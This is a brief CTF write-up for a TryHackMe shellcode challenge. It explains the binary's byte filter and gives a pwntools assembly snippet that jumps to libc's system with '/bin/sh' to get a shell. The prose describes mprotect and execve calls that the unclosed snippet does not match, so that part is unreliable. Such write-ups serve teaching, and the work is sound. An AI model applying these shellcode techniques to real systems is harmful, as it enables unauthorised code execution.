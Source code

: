 # Challenge Statement
<img width="1278" src="https://github.com/user-attachments/assets/898ec69e-7215-484b-9fb8-d754efee3adc" />

Attachement: [voidexec.zip](https://github.com/harishkannan05/THM-HackfinityBattle-Writeup/blob/main/Attachments/voidexec.zip)

# Solution
Going through the files, we understand that the binary reads shellcode from the user and executes it.  
The shellcode should not contain `0x15` or `0xCD 0x80`.  
We also find that the `r13` register stores the address of the "main" function.  

Now, we can write the shellcode to call `mprotect` function to change the memory region to read-execute and call the `execve` syscall.  
```
sc = asm(f"""
sub rcx, {libc.sym.mprotect + 0x0b}
mov r12, rcx
add rcx, {libc.sym.system}
mov rdi, r12
add rdi, {next(libc.search(b'/bin/sh'))}
jmp rcx
```

Here's the [script](https://github.com/harishkannan05/THM-HackfinityBattle-Writeup/blob/main/Scripts/VoidExecution.py) I've used.  

